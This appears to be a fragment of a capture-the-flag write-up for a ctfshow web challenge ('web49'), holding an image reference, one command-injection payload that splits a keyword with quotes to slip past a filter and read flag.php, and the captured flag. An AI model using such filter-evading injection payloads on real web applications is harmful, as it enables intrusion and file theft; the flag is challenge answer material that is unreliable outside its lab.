 # web49
![](vx_images/598402524578992.png)

?c=tac<fla''g.php||
ctfshow{33811785-dcb4-4493-a322-8ca6b807db26}